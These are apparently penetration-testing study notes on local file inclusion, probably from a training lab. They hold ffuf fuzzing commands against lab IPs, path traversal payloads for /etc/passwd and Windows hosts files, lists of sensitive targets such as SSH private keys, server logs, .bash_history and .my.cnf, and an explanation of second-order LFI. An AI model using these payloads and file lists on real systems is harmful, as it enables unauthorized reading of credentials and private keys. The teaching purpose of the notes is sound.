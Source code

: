 1. View users on machine
2. Search for SSH Keys
3. Search for passwords in log or configuration files (.htaccess, config.php)

```bash
ffuf -w ~/opt/wordlists/burp-parameter-names.txt:FUZZ -u 'http://94.237.56.156:53371/index.php?FUZZ=value'

ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://94.237.56.156:53371/index.php?page=FUZZ'

ffuf -w ~/opt/wordlists/LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>/index.php?language=../../../../FUZZ'
```


```http
/../../../../../../../../../etc/passwd
../../../../../../../../../etc/passwd
../../../../../../../../../windows/system32/drivers/etc/hosts
..\..\..\..\..\..\..\..\..\windows\system32\drivers\etc\hosts

/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/windows/system32/drivers/etc/hosts
\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\%2e%2e\windows\system32\drivers\etc\hosts
```

##### SSH Keys
```bash
id_rsa
id_ecdsa
id_ecdsa_sk
id_ed25519
id_ed25519_sk
id_dsa

authorized_keys
id_rsa.keystore
id_rsa.pub
known_hosts
```

##### HTTPD, Apach2, Nginx logs
```bash
/var/log/apache/access.log 
/var/log/apache2/access.log 
/var/log/apache/access_log 
/var/log/apache2/access_log
/var/log/access_log
/etc/nginx/sites-enabled/default
/var/log/nginx/access.log 
/var/log/nginx/access_log 
/etc/httpd/logs/access_log 
/etc/httpd/logs/error_log 
/var/www/logs/access_log 
/var/www/logs/access.log 
/usr/local/apache/logs/access. log 
/opt/apache2/logs/access_log
/opt/apache2/logs/access.log
/opt/apache/logs/access_log
/opt/apache/logs/access.log
```

##### IIS
```bash
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
```

##### Linux user specific
```bash
.bash_history
.mysql_history
.my.cnf
```

##### Windows
```powershell
c:\apache\php\php.ini 
c:\xampp\apache\bin\php.ini  
c:\xampp\apache\logs\access.log
c:\Program Files\Apache Group\Apache\conf\httpd.conf  
c:\Program Files\Apache Group\Apache2\conf\httpd.conf  
c:\Program Files\xampp\apache\conf\httpd.conf  
```

## Second-Order Attacks

As we can see, LFI attacks can come in different shapes. Another common, and a little bit more advanced, LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

In this case, we would be poisoning a database entry with a malicious LFI payload in our username. Then, another web application functionality would utilize this poisoned entry to perform our attack (i.e. download our avatar based on username value). This is why this attack is called a `Second-Order` attack.

Developers often overlook these vulnerabilities, as they may protect against direct user input (e.g. from a `?page` parameter), but they may trust values pulled from their database, like our username in this case. If we managed to poison our username during our registration, then the attack would be possible.

Exploiting LFI vulnerabilities using second-order attacks is similar to what we have discussed in this section. The only variance is that we need to spot a function that pulls a file based on a value we indirectly control and then try to control that value to exploit the vulnerability.
